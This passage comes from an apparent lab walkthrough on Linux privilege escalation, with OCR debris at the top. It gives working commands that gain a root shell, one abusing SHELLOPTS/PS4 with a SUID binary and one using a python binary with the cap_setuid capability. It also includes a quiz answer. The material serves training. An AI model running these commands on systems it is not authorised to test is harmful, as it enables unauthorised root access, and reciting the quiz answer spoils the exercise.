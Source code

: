 **Exploitation Method #2**

**Linux VM**

1. In command prompt type: `env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'`

---

```
TCM@debian:~$ strings /usr/local/bin/suid-env2
/lib64/ld-linux-x86-64.so.2
__gmon_start__
libc.so.6
setresgid
setresuid
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
/usr/sbin/service apache2 start
TCM@debian:~$
```

1. What is the last line of the "strings /usr/local/bin/suid-env2" output?

`/usr/sbin/service apache2 start`

## Privilege Escalation - Capabilities

**Detection**

**Linux VM**

1. In command prompt type: `getcap -r / 2>/dev/null`
2. From the output, notice the value of the “cap_setuid” capability.

**Exploitation**

**Linux VM**

1. In command prompt type: `/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'`
2. Enjoy root!

---

1. Click 'Completed' once you have successfully elevated the machine 

## Privilege Escalation - Cron (Path)

**Detection**
